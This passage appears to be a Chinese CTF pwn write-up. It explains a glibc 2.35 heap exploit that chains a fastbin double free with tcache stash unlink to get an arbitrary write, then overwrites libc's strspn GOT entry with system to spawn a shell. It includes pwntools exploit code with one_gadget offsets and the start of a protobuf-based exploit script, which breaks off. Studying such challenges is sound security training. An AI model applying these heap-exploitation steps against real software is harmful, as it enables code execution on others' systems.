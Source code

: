 最后，通过 double free + tcache stash unlink 完成一次任意地址写：

1.  free 填满 tcache，chunk0 -> chunk1 ... -> chunk6。
2.  在 fastbin 中完成 double free，chunk7 -> chunk8 -> chunk7。
3.  将 tcache 中的 chunk 全部申请回来，然后申请 chunk7，此时会进行 tcache stash unlink，即把后续的 chunk8 和 chunk7 放到 tcache 中。此时 tcache 中：chunk8 -> chunk7。如果申请 chunk7 时候写入数据即可修改 fd 指针。

2.35 版本 libc，没有各种 hook，查看保护情况，发现 libc 没有开启 RELRO 保护，考虑修改 libc 的 got 表。

查看 libc 中的 strtok 函数调用了 strspn 函数，将这个函数修改为 system 函数完成利用即可。

![](https://bbs.kanxue.com/upload/attach/202406/912098_AD3VCD68VTDPZ96.jpg)

这里说一下如何计算 strspn 函数 got 表地址，先将题目 patch 到本地有符号的 libc 中，然后 vmmap 查看 libc：

![](https://bbs.kanxue.com/upload/attach/202406/912098_XS6VMQ3YNC4VPSQ.jpg)

最后面这个带有可写权限的即 got 表存储的地方，发现这个函数偏移量是 0x58：

![](https://bbs.kanxue.com/upload/attach/202406/912098_T4538TUTNED95HU.jpg)

换回题目给的 libc，即可计算出该函数 got 表地址，要注意 tcache 需要地址 0x10 对齐。

```
delete_chunk(7)
delete_chunk(8)
delete_chunk(7)
for i in range(7):
    add_chunk(i, b't')
one_gadget = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]
target = ((heap_base + 0x5410) >> 12) ^ (libc_base + 0x21a050)
add_chunk(7, p64(target))
add_chunk(7, b'useless')
add_chunk(7, b'useless')
add_chunk(7, p64(libc_base + 0x2c080) + p64(libc.sym['system']))

```

设置 size 为 0x30 即可触发 strtok，参数为 content。还需要注意的是，直接传入 / bin/sh\x00 会出问题。

猜测可能是因为序列化时所有字符都是相邻的，所以在最前面任意加个字符和分号，然后传 / bin/sh\x00 没问题。

![](https://bbs.kanxue.com/upload/attach/202406/912098_UE8WQK4UR9J68HQ.jpg)

exp
---

```
from pwn import *
import Heybro_pb2
 
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = process([elf.path])
 
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
 
 
def add_chunk(index, content):
    heybro = Heybro_pb2.heybro()
    heybro.whattodo = 1
    heybro.whatidx = index
    heybro.whatsize = 0
    heybro.whatcon = content
    heybro.whatsthis = 0
    p.sendafter(b'WANT?\n', heybro.SerializeToString())
 
```
